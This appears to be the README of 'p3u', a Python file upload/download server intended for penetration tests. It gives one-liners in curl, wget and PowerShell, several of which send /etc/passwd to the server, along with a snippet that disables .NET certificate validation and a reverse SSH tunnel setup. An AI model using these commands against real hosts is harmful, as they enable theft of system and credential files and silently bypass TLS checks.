 # p3u - Python 3 Uploader

# Purpose
I needed a flexible and simple file upload and download tool with SSL support for local use at customer site during penetration tests.
So I stumbled over the gist files already implementing it and modified them for my needs.

Feel free to contribute with PRs.

# Script Usage
Use the following arguments: \
`p3u.py -l ip -p port -a user:password -c server.pem`

Generate your cert with \
`p3u.py -g`

Use remote Box for reverse proxy and ssl offloading:
1. Configure your server with Let's Encrypt and nginx
2. Add to the nginx.conf
```
location / {
        proxy_pass http://127.0.0.1:5555/;
}
```
3. Connect to the server via SSH to establish the tunnel:
```
ssh -nNT -4 -R 5555:localhost:80 user@server -v
```
4. Run p3u.py

This will handle and offload SSL connections on the server with certbot or similar without the need to run the challenge locally.

# Data transfer examples

# Download and Upload from Browser
## Browser
```
Click, Click, Done
```

# Downloading from Linux

## wget
```shell
wget https://127.0.0.1:8888/file [--no-check-certificate] [--http-user user --http-password password]
```

## curl
```shell
curl https://127.0.0.1:8888/file -O [--insecure] [--user user:password]
```

# Uploading from Linux
## curl
```shell
curl -F 'file=@/etc/passwd' [https://]127.0.0.1:8888 [--user user:password] [--insecure]
```

## wget
(This one was fun to build)
```shell
filename=/etc/passwd && echo -e "----FILEUPLOAD\r\nContent-Disposition: form-data; name=\"file\"; filename=\"$filename\"\r\n" > /tmp/xyz-upload && cat $filename >> /tmp/xyz-upload && echo -e '\r\n----FILEUPLOAD--\r\n' >> /tmp/xyz-upload && wget --header="Content-type: multipart/form-data; boundary=--FILEUPLOAD" --post-file /tmp/xyz-upload [https://]127.0.0.1:8888 -qO- [--http-user user --http-password password] [--no-check-certificate] && rm /tmp/xyz-upload
```

# Downloading from Windows

## Powershell without authentication w/ .Net
```powershell
$url="http[s]://127.0.0.1:8888/file"; (New-Object System.Net.WebClient).DownloadFile($url,$url.Substring($url.LastIndexOf("/") + 1))
```

## Powershell without authentication w/o .Net
-SkipCertificateCheck is quite new: https://github.com/PowerShell/PowerShell/pull/2006
```powershell
$url="https://127.0.0.1:8888/passwd"; Invoke-WebRequest $url -OutFile $url.Substring($url.LastIndexOf("/") + 1) [-SkipCertificateCheck]
```

## Handling invalid certificates in .Net
```powershell
Add-Type -Language CSharp "namespace System.Net {public static class Util {public static void Init() {ServicePointManager.ServerCertificateValidationCallback = null;ServicePointManager.ServerCertificateValidationCallback += (sender, cert, chain, errs) => true;}}}"; [System.Net.Util]::Init();
<insert one of the powershell .Net payloads here>
```

# Uploading stuff from Windows

## Powershell without authentication w/ .Net
```powershell
(New-Object Net.WebClient).UploadFile("http[s]://127.0.0.1:8888","/etc/passwd")
```

## Powershell with authentication w/ .Net
```powershell
$wc = New-Object System.Net.WebClient; $wc.Credentials = new-object System.Net.NetworkCredential("user","password"); $resp = $wc.UploadFile("http[s]://127.0.0.1:8888","/etc/passwd")
```

# Handling invalid certificates in .Net
```powershell
Add-Type -Language CSharp "namespace System.Net {public static class Util {public static void Init() {ServicePointManager.ServerCertificateValidationCallback = null;ServicePointManager.ServerCertificateValidationCallback += (sender, cert, chain, errs) => true;}}}"; [System.Net.Util]::Init();
<insert one of the powershell payloads here>
```

## Credits
UniIsland & 4d4c for their initial work
